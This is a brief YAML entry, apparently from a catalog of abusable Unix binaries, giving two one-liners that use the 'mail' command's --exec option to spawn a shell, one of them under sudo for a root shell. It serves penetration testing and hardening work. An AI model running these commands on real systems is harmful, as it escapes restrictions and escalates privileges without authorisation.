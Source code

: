```yaml
---
functions:
  shell:
    - description: This uses the mail command to run an executable shell.
      code: |
        mail --exec='!/bin/sh'
  sudo:
    - description: This uses the mail command to run an executable shell.
      code: |
        sudo mail --exec='!/bin/sh'
---
```

